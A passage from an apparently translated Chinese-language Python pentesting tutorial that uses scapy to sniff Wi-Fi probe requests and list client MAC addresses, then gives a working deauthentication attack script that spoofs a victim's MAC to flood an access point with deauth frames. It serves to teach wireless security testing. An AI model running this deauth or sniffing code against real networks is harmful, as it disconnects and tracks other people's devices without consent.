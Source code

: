 ## 检测 AP 客户端

您可能需要获取特定 AP 的所有客户端。在这种情况下，您必须捕获探测请求帧。在 scapy 中，这称为 Dot11ProbeReq。

让我们看看 Wireshark 中的帧：

![Detecting clients of an AP](graphics/8583OT_04_10_new.jpg)

探测请求帧

探测请求帧包含一些有趣的信息，如源地址和 SSID，如前面的屏幕截图中突出显示的。

现在，是时候看看代码了：

```
from scapy.all import *
interface ='mon0'
probe_req = []
ap_name = raw_input("Please enter the AP name ")
def probesniff(fm):
  if fm.haslayer(Dot11ProbeReq):
    client_name = fm.info
    if client_name == ap_name :
      if fm.addr2 not in probe_req:
        print "New Probe Request: ", client_name 
        print "MAC ", fm.addr2
        probe_req.append(fm.addr2)
sniff(iface= interface,prn=probesniff)
```

让我们看看前面程序中添加的新内容。用户输入 AP 感兴趣的 SSID，该 SSID 将存储在`ap_name`变量中。`if fm.haslayer(Dot11ProbeReq):`语句表示我们对探测请求帧感兴趣。`if client_name == ap_name :`语句是一个过滤器，它捕获包含感兴趣的 SSID 的所有请求。`print "MAC ", fm.addr2`行打印连接到 AP 的无线设备的 MAC 地址。

`probe_req.py`程序的输出如下：

![Detecting clients of an AP](graphics/8583OT_04_11.jpg)

连接到 AP CITY PG3 的无线设备列表

# 无线攻击

到目前为止，您已经看到了各种收集信息的嗅探技术。在本节中，您将了解无线攻击是如何发生的，这是 pentesting 中一个非常重要的主题。

## 反身份验证（deauth）攻击

反验证框架属于管理框架的范畴。当客户端希望与 AP 断开连接时，客户端发送反验证帧。AP 还以回复的形式发送取消验证帧。这是正常的过程，但攻击者会利用此过程。攻击者伪造受害者的 MAC 地址，并代表受害者向 AP 发送 deauth 帧；因此，客户端的连接被断开。`aireplay-ng`程序是完成 deauth 攻击的最佳工具。在本节中，您将学习如何使用 Python 执行此攻击。

现在，让我们看一下以下代码：

```
from scapy.all import *
import sys

interface = "mon0"
BSSID = raw_input("Enter the MAC of AP ")
victim_mac = raw_input("Enter the MAC of Victim ")

frame= RadioTap()/ Dot11(addr1=victim_mac,addr2=BSSID, addr3=BSSID)/ Dot11Deauth()
sendp(frame,iface=interface, count= 1000, inter= .1)
```
